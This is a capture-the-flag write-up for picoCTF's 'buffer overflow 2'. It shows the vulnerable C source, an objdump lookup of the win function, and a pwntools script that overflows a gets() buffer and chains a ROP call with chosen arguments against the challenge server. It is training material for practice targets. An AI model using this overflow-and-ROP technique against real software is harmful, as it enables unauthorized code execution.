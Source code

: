 # buffer overflow 2

This challenge from [picoCTf](https://play.picoctf.org/practice/challenge/259) is a buffer overflow where we need to set some arguments that are on the stack

Looking at the source code we will need to call the `win` function with the two arguments set to `0xCAFEF00D` and `0xF00DF00D`.

```c
#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

We can retrieve `win` adress using objdump:

```
❯ objdump -d vuln | grep win
08049296 <win>:
 80492cc:       75 2a                   jne    80492f8 <win+0x62>
 8049313:       75 1a                   jne    804932f <win+0x99>
 804931c:       75 14                   jne    8049332 <win+0x9c>
 804932d:       eb 04                   jmp    8049333 <win+0x9d>
 8049330:       eb 01                   jmp    8049333 <win+0x9d>
```

Then we can just [rop](https://docs.pwntools.com/en/stable/rop/rop.html#manual-rop) using pwntools:

```py
from pwn import *


elf = ELF('./vuln')
rop = ROP(elf)

rop.call(0x08049296, [0xCAFEF00D, 0xF00DF00D])
payload = b'A' * 112 + rop.chain()


r = remote('saturn.picoctf.net', 49846)

r.recvuntil(b'Please enter your string: ')
r.sendline(payload)
r.interactive()
```